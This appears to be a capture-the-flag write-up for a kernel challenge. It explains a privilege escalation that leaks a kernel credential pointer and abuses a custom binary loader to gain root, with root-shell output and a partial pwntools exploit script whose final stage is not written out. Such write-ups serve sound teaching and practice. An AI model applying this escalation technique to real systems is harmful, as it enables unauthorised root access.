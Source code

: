 ### Exploit
Generate a p4 binary for kernel memory leak first, then set up loads header of second p4 binary to trigger `_clear_user( bprm->cred + 0x10 , len ); // +0x10 prevent crashing caused by the NULL pointer`.
`install_exec_creds(bprm)` will call `commit_creds(bprm->cred);` and process our new `bprm->cred`, then execute our p4 binary with root privilege!
Execute shellocde and enjoy the root shell :D

### Root shell
```
/tmp $ ./pwn
[   17.114933] vm_mmap(load_addr=0x7000000, length=0x1000, offset=0x0, prot=7)
[   17.115323] vm_mmap(load_addr=0xffffa11a421b5000, length=0x48, offset=0x0, prot=0)
[   17.115656] clear_user(addr=0xffffa11a421b5f18, length=0x48)
/tmp # id
uid=0(root) gid=0 groups=1000
/tmp # cat /flag
p4{4r3_y0U_4_81n4ry_N1njA?}
/tmp #
```

exploit:
```python
#!/usr/bin/env python
from pwn import *
import base64
import re

# p4{4r3_y0U_4_81n4ry_N1njA?}

context.arch = 'amd64'
host , port = 'p4fmt.zajebistyc.tf' , 30002
y = remote( host , port )

def gen_p4_binary( version = 0 , arg = 1 , section_header_offset = 0x18 , sections_len = 0 , entry = 0 , sections = [] , code = '' ):
    b = 'P4' # MAGIC
    b += p8( version ) + p8( arg ) + p32( sections_len ) + p64( section_header_offset ) + p64( entry )
    b += ''.join( flat(s) for s in sections )
    if code:
        b = b.ljust( entry & 0xfff , '\0' )
        b += code
    return b

def sp( cmd ):
    y.sendlineafter( '$' , cmd )

def leak():
    sp( './leak' )
    y.recvuntil( 'length=' )
    cred = int( y.recvuntil( ',' )[:-1] , 16 )
    success( 'cred -> %s' % hex( cred ) )
    return cred

sp( 'cd /tmp' )

p4 = gen_p4_binary( section_header_offset = 0x90 , sections_len = 1 )
sp( "echo %s | base64 -d > ./leak" % ( base64.b64encode( p4 ) ) )
sp( 'chmod +x ./leak' )
cred = leak() # 1

print shellcraft.echo('Hellofewfew')

```